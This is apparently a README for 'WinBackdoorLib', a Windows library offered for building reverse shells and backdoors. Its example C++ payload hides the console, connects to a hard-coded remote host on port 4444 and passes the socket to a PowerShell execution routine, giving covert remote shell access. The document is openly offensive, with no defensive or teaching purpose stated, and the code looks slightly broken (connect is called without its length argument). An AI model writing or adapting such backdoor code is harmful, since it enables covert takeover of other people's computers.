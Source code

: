 # WinBackdoorLib
a simple module to create "reverse shell or backdoor" simply with Windows API

![Image1](capture.PNG)


## example Payload :
  ```cpp
#include "backdoorlib.h"
#include <iostream>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string.h>
#include <wininet.h>
#include <windows.h>

#pragma comment(lib,"Ws2_32.lib")

#define REMOTE_ADDR "192.168.1.71"
#define REMOTE_PORT 4444

int main()
{
    hide_console();
    WSADATA wsa_version;
    SOCKET socks;

    struct sockaddr_in session;

    session.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    session.sin_family = AF_INET;
    session.sin_port = htons(REMOTE_PORT);

    WSAStartup(MAKEWORD(2,2),&wsa_version);
    socks = WSASocket(AF_INET, SOCK_STREAM,IPPROTO_TCP,0,0,0);
    int c = connect(socks,session);
    if (c == 0)
	{
        execute_powershell(socks);
    }
    return 0;
}
  ```
